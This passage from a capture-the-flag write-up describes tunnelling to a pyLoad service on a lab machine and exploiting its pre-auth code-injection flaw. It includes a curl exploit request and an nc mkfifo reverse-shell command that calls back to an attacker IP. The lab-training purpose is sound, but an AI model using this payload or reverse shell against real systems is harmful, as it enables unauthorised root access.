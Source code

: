 We tunnel port `8000` to our machine so we can access it.

```bash
$ ssh -L 8000:localhost:8000 sau@10.10.11.214
```

Port `8000` seems to be running `pyload`.
>PyLoad is a Python-based download manager that allows users to easily and efficiently manage and automate the downloading of files from various online sources.

![pyload](/assets/img/htb-pc-pyload.png)

When looking up exploits that exists in `pyload`, we find an ["pre-auth remote code execution"](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/). By modifying the PoC payload, we managed to gain a root reverse shell.

The payload looks like:
```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=COMMAND_HERE";f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \                            
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
- `-i`: Includes the response headers in the output.
- `-s`: Silences the progress meter and other unnecessary output.
- `-k`: Allows insecure connections by skipping SSL certificate verification.
- `-X 'POST'`: Specifies that the request method is a POST.
- `--data-binary $'...'`: Sets the request body data. The payload is provided in URL-encoded format.
- `jk=COMMAND_HERE"`: This parameter sets the value of the "jk" parameter, which is susceptible to code injection. 
    - The command we inject is a nc reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.64 1234 >/tmp/f`. This command needs to be URL encoded.
- `f=function%20f2(){};`: This code sets an empty function named "f2". It is included to ensure that the payload syntax remains valid and doesn't cause any errors due to undefined variables.
- `&package=xxx&crypted=AAAA&&passwords=aaaa`: These parameters represent additional values included in the request. Their specific purpose may be application-specific and are not directly related to the payload.
- `$'http://127.0.0.1:8000/flash/addcrypted2'`: Specifies the target URL where the request will be sent.
